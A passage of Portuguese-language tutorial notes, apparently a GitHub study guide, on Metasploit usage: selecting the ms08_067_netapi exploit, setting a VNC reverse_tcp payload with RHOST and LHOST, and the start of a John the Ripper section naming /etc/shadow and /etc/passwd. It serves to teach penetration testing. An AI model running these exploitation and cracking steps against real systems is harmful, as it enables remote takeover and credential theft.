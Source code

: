 Para obter mais informações (licença, classificação, author, operações basicas e detalhes do exploit) sobre um exploit o comando `info` pode ser usado:

```sh
info auxiliary/dos/windows/smb/ms09_001_write
```

#### Usar exploits:

Selecionar o exploit:

```sh
use exploit/windows/smb/ms08_067_netapi
```

Vai entrar no modo do exploit, depois é usado o comando `show payloads`

Selecionar o payload (O payload do exemplo imprime "You Got Pwned!"):

```sh
set payload windows/speak_pwned
```

Payloads precisam de alguma configuração, para ver o que precisa ser configurado:

```sh
show options
```

Para definir algum parâmetro:

```sh
set RHOST 10.0.0.106
```

Para definir outro payload (O payload instala `VNC` que permite o controle remoto de um computador, mas precisa que seu computador tenha `VNC`):

```sh
set payload windows/vncinject/reverse_tcp
```

Definindo os parâmetros pro `VNC`:

```sh
set RHOST 10.0.0.106
set LHOST 10.0.0.101
set ViewOnly false
```

## Cracking de senhas

### [John The Ripper](www.openwall.com/john)

Senhas: `/etc/shadow`

Info Usuarios: `/etc/passwd`

#### Unshadow

O unshadow combina as informações do usuário com as suas senhas
